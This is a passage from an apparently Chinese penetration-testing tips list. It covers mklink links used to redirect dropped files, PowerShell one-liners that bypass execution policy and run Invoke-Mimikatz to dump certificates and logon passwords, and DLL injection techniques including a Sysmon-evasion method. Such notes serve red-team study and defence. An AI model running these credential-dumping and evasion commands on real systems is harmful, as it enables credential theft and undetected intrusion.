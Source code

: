 (1) 使用/D参数命令创建一个链接：

mklink /D "c:\test\1" "c:\Temp"

(2) 使用/J参数命令创建一个联接：

mklink /J "c:\test\1" "c:\Temp"

差异：

使用/D参数创建的链接，文件属性多了"快捷方式"

使用/J不需要管理员权限

使用/D需要管理员权限

**应用：**

更改释放文件的路径 

---

### Tips 51 powershell在执行脚本时传入参数

```
powershell -executionpolicy bypass -Command "Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -DumpCerts"

powershell -executionpolicy bypass -Command "Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command ""log ""privilege::debug"" ""sekurlsa::logonpasswords"""""
```

---

### Tips 52 dll注入方法

#### 1、APC

参考：

[《通过APC实现Dll注入——绕过Sysmon监控》](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87APC%E5%AE%9E%E7%8E%B0Dll%E6%B3%A8%E5%85%A5-%E7%BB%95%E8%BF%87Sysmon%E7%9B%91%E6%8E%A7/)

#### 2、process hollowing

参考：

[《傀儡进程的实现与检测》](https://3gstudent.github.io/3gstudent.github.io/%E5%82%80%E5%84%A1%E8%BF%9B%E7%A8%8B%E7%9A%84%E5%AE%9E%E7%8E%B0%E4%B8%8E%E6%A3%80%E6%B5%8B/)

#### 3、Process Doppelgänging

参考：

[《Process Doppelganging利用介绍》](https://3gstudent.github.io/3gstudent.github.io/Process-Doppelganging%E5%88%A9%E7%94%A8%E4%BB%8B%E7%BB%8D/)

---

### Tips 53 域内默认共享目录
